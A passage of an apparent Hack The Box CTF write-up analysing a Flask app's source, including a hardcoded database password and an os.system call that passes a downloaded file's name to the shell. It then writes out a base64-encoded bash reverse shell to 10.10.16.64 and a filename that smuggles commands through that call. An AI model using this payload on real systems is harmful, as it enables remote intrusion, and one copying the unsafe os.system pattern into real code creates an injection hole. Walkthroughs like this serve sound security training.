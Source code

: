 ```python
connector = mysql.connector.connect(user='admin', password='ToughPasswordToCrack', host='127.0.0.1', database='writer')
```

The page `dashboard/users` receives all the data from the database:

```python
@app.route('/dashboard/users')
def users():
    if not ('user' in session):
        return redirect('/')
    try:
        connector = connections()
    except mysql.connector.Error as err:
        return "Database Error"
    cursor = connector.cursor()
    sql_command = "SELECT * FROM users;"
    cursor.execute(sql_command)
    results = cursor.fetchall()
    return render_template('users.html', results=results)
```

And the template leaves the password out of the displayed values:

```html
{% for result in results %}
<tr>
    <td>{{ result[0] }}</td>
    <td>{{ result[1] }}</td>
    <td>{{ result[3] }}</td>
    <td>{{ result[5] }}</td>
    <td>{{ result[4] }}</td>
</tr>
{% endfor %}
```

So we could get the admin password by rewritting the template and adding the
missing `<td>{{ result[2] }}</td>`.

But that's a lot of work for a password with unknown authorizations.

The real highlight of the script is:

```python
local_filename, headers = urllib.request.urlretrieve(image_url)
os.system("mv {} {}.jpg".format(local_filename, local_filename))
```

## Login as www-data

So the name of a file can be interpreted as a system command. The challenge is
to create a valid filename made of shell commands. Base64 encoding escapes most
of the special characters:

```bash
# YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42NC85ODc2IDA+JjEn
payload=$(echo -n "bash -c 'bash -i >& /dev/tcp/10.10.16.64/9876 0>&1'" | base64 -w 0)
touch "1.jpg;\`echo ${payload}|base64 -d|bash\`;"
```


[author-profile]: https://app.hackthebox.eu/users/114053
[check-payload]: images/check-payload.png
[hacktricks-smtp]: https://book.hacktricks.xyz/pentesting/pentesting-smtp
[sqli]: images/sqli.png
[trigger-payload]: images/trigger-payload.png
[upload-image]: images/upload-image.png